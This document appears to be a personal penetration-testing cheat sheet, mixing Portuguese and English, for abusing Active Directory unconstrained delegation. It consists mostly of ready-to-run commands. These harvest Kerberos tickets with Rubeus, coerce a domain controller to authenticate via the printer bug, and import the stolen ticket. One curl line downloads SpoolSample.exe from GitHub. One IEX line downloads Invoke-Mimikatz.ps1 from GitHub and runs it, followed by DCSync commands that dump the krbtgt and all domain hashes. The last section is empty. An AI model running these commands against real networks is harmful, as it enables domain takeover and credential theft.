 ##### UNCONSTRAINED DELEGATION RUBEUS - LIST TICKETS
```
.\Rubeus.exe triage
.\Rubeus.exe triage /user:administrator
.\Rubeus.exe triage /luid:0xd62d4
```
```
Invoke-Rubeus triage
Invoke-Rubeus 'triage'
```
##### UNCONSTRAINED DELEGATION RUBEUS - MONITORAR E EXTRAIR OS TICKETS KERBEROS DA MEMÓRIA DO COMPUTADOR:
```
.\Rubeus.exe  monitor /interval:5 /nowrap
.\Rubeus.exe  monitor /interval:5 /nowrap > C:\tickets.log
.\Rubeus.exe  monitor /interval:5 >> C:\tickets.log
.\Rubeus.exe monitor /monitorinterval:5 /targetuser:DC$ /nowrap
```
It may be sufficent to just wait and see what privileged or high-interest users/computers authenticate to our compromised host, 
or it may be possible to force a sensitive system to authenticate through the printerbug.
##### UNCONSTRAINED DELEGATION RUBEUS - EXPORTAR UM TICKET:
```
.\Rubeus.exe dump /nowrap
.\Rubeus.exe dump /nowrap /user:administrator
.\Rubeus.exe dump /nowrap /luid:0xd62d4
```
##### UNCONSTRAINED DELEGATION RUBEUS - PASS THE TICKET (TGT)
```
Rubeus.exe ptt /ticket:sdjadjaspjdapsidpsaijpiasdiasjDCCBdygAwI9DQUw=
```
```
Invoke-Rubeus 'ptt /ticket:sdjadjaspjdapsidpsaijpiasdiasjDCCBdygAwI9DQUw='
```
##### UNCONSTRAINED DELEGATION RUBEUS - FORÇAR COMPUTADOR A SE AUTENTICAR EM OUTRO
LEMBRAR DE MONITORAR COM O RUBEUS ANTES:
```
.\Rubeus.exe  monitor /interval:5 /nowrap
```
FORÇAR COMPUTADOR A SE AUTENTICAR NO OUTRO (PRINTERBUG)
```
curl https://github.com/n0ts0cial/oscp/raw/main/SpoolSample.exe -Outfile SpoolSample.exe
.\SpoolSample.exe tech-dc01 server02
```
ou (PRINTER BUG)
```
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorpappsrv.dollarcorp.moneycorp.local
```
IMPORTAR O TICKET DO DC:
```
.\Rubeus.exe ptt /ticket:doIFqjCCBaagguTE9DQUw=
```
CARREGAR O MIMIKATZ E FAZER O DCSYNC:
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/Invoke-Mimikatz.ps1")
Invoke-Mimikatz
```
OPÇÃO 1 - FAZER O ATAQUE DCSYNC
```
lsadump::dcsync /user:tech\krbtgt
lsadump::dcsync /domain:TECH.LOCAL /all /csv
```
OPÇÃO 2 - CRIAR UMA CONTA NO DOMINIO
```
```